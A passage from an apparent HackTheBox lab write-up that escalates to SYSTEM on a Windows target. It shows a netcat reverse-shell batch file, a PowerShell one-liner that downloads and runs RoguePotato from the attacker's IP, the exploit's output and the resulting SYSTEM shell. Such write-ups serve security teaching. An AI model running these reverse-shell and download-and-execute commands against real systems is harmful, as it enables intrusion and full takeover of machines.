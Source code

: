     c:\ProgramData>type rev.bat                             
    c:\programdata\nc.exe -e cmd 10.10.14.24 443
    

I tested `rev.bat` by just running it and making sure I got a shell back.

Now I’ll make sure to run the commands to download and then execute
`RoguePotato.exe` in one line.

### Success

Now I have everything in place to run RoguePotato. For speed, I’ll run one
command with stacked commands to download and run it:

    
    
    c:\ProgramData>powershell -c wget 10.10.14.24/RoguePotato.exe -outfile r.exe; .\r.exe -r 10.10.14.24 -l 9999 -e C:\programdata\rev.bat
    [+] Starting RoguePotato...
    [*] Creating Rogue OXID resolver thread
    [*] Creating Pipe Server thread..
    [*] Creating TriggerDCOM thread...
    [*] Listening on pipe \\.\pipe\RoguePotato\pipe\epmapper, waiting for client to connect
    [*] Calling CoGetInstanceFromIStorage with CLSID:{4991d34b-80a1-4291-83b6-3328366b9097}
    [*] Starting RogueOxidResolver RPC Server listening on port 9999 ... 
    [*] IStoragetrigger written:104 bytes
    [*] SecurityCallback RPC call
    [*] ResolveOxid2 RPC call, this is for us!
    [*] ResolveOxid2: returned endpoint binding information = ncacn_np:localhost/pipe/RoguePotato[\pipe\epmapper]
    [*] Client connected!
    [+] Got SYSTEM Token!!!
    [*] Token has SE_ASSIGN_PRIMARY_NAME, using CreateProcessAsUser() for launching: C:\programdata\rev.bat
    [+] RoguePotato gave you the SYSTEM powerz :D
    

Back at `nc`, I’ve got a shell as system:

    
    
    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.203.
    Ncat: Connection from 10.10.10.203:54454.
    Microsoft Windows [Version 10.0.17763.1282]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    c:\ProgramData>whoami
    nt authority\system
    

[](/2021/01/30/htb-worker.html)

